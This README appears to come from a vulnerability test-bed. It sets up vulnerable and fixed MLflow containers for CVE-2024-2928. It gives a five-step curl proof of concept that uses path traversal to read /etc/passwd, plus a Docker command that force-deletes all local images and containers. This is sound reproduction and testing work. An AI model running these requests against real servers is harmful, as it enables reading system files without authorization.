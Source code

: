 # MLflow CVE-2024-2928

This directory contains the deployment config for MLflow instances vulnerable and fixed to CVE-2024-2928. MLflow versions below 2.11.2 are vulnerable to that arbitrary file read vulnerability.

## How to Trigger the Vulnerability?

To trigger the vulnerability, you can use the following five curl commands. In a vulnerable environment, after the final curl request, you can see the /etc/passwd file content in the response.
```
# Create a malicious experiment:
curl -X POST -H 'Content-Type: application/json' -d '{"name": "poc", "artifact_location": "http:///#/../../../../../../../../../../../../../../etc/"}' 'http://127.0.0.1:5000/ajax-api/2.0/mlflow/experiments/create'

# Associate a run to it (EXPERIMENT_ID is coming from the first curl request's response):
curl -X POST -H 'Content-Type: application/json' -d '{"experiment_id": "EXPERIMENT_ID"}' 'http://127.0.0.1:5000/api/2.0/mlflow/runs/create'

# Create a registered model:
curl -X POST -H 'Content-Type: application/json' -d '{"name": "poc"}' 'http://127.0.0.1:5000/ajax-api/2.0/mlflow/registered-models/create'

# Link a model version to the malicious run (RUN_ID is coming from the second curl request's response. It is below the lifecycle_stage key in the JSON response):
curl -X POST -H 'Content-Type: application/json' -d '{"name": "poc", "run_id": "RUN_ID", "source": "file:///etc/"}' 'http://127.0.0.1:5000/ajax-api/2.0/mlflow/model-versions/create'

# Read /etc/passwd:
curl 'http://127.0.0.1:5000/model-versions/get-artifact?path=passwd&name=poc&version=1'
```

In case you cannot trigger the vulnerability, you might need to delete your existing container images because Docker might try to reuse them.

```
sudo docker rmi -f $(sudo docker images -aq)
sudo docker remove $(sudo docker ps -a -q)
```
## Fixed version
docker run -p 127.0.0.1:5000:5000 ghcr.io/mlflow/mlflow:v2.11.3 mlflow server --host 0.0.0.0 --port 5000

The deployed service listens on `localhost:5000` after the docker completes its job.

## Vulnerable version
docker run -p 127.0.0.1:5000:5000 ghcr.io/mlflow/mlflow:v2.9.2 mlflow server --host 0.0.0.0 --port 5000

The deployed service listens on `localhost:5000` after the docker completes its job.
